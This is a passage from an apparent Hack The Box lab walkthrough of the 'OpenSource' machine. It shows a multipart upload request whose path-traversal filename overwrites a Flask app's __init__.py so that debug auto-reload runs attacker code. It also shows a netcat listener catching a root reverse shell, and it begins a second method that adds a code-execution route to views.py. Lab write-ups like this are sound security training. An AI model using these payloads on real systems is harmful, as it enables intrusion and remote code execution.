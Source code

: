 ```http
-----------------------------287371904330582195774088103722--
```
Now, flask detects a change on a .py file and since it is configured with `FLASK_DEBUG=1`, the web server automatically reloads and apply the changes.  
As we hit the site again we will have a reverse shell:  
```http
POST /upcloud HTTP/1.1
Host: 10.10.11.164
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------26293638831672363921248373520
Content-Length: 253
Origin: http://10.10.11.164
Connection: close
Referer: http://10.10.11.164/upcloud
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

-----------------------------26293638831672363921248373520
Content-Disposition: form-data; name="file"; filename="..//..//..//..//app/app/__init__.py"
Content-Type: image/png


-----------------------------26293638831672363921248373520--
```
and we got shell as root into a container:
```shell
root@kali:~/Documents/HTB/Boxes/OpenSource/walkthroughs# nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.164] 38016
/app #       
```

### Method 2 - Arbitrary File Upload, Malicious Route Creation
When we overwrite the `__init__.py` file, the application stops working since our shell is interrupting the load of libraries.  
Instead of overwriting, we can overwrite `/app/app/views.py` and add an additional route `/exec` that can allow us to execute code:  
```python
import os

from app.utils import get_file_name
from flask import render_template, request, send_file

from app import app


@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')



@app.route('/uploads/<path:path>')
```